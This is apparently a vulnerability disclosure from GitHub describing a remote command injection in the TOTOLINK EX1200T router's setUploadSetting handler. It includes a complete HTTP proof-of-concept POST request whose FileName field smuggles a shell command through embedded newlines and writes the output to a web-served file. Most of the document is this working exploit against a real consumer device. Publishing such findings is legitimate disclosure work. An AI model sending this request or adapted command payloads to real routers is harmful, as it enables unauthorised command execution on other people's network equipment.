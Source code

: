 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setUploadSetting` of the file `upgrade.so` , we can control the `FileName` to attack.

![image-20211026155604119](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211026155604119.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 101

{"topicurl":"setting/setUploadSetting",
"FileName":"\nps>/web_cste/test1\n",
"ContentLength":"111"}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)

